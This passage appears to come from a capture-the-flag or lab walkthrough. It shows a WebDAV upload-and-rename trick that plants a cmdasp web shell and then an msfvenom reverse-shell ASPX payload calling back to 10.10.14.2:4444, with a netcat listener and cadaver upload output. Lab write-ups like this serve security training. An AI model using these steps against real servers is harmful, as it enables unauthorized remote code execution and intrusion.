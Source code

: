 ![cmdasp](../.res/2022-10-10-12-54-24.png)
- `move cmdasp.txt cmdasp.aspx` we move it  
![aspx](../.res/2022-10-10-13-01-10.png)  
- Now that we know we can do this let's make a payload with msfvenom and try to get a reverse shell `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f aspx -o reverse.aspx`.
- We copy our payload to make a txt version `cp reverse.aspx reverse.txt`
- We set a listener `rlwrap nc -lnvp 4444`
- We put the txt file in the server and move it to make it executable by the server  

```bash
dav:/DavTestDir_kbmSbjBY/> put reverse.txt 
Uploading reverse.txt to `/DavTestDir_kbmSbjBY/reverse.txt':
Progress: [=============================>] 100.0% of 2747 bytes succeeded.
dav:/DavTestDir_kbmSbjBY/> move reverse.txt reverse.aspx
Moving `/DavTestDir_kbmSbjBY/reverse.txt' to `/DavTestDir_kbmSbjBY/reverse.aspx':  succeeded.
```
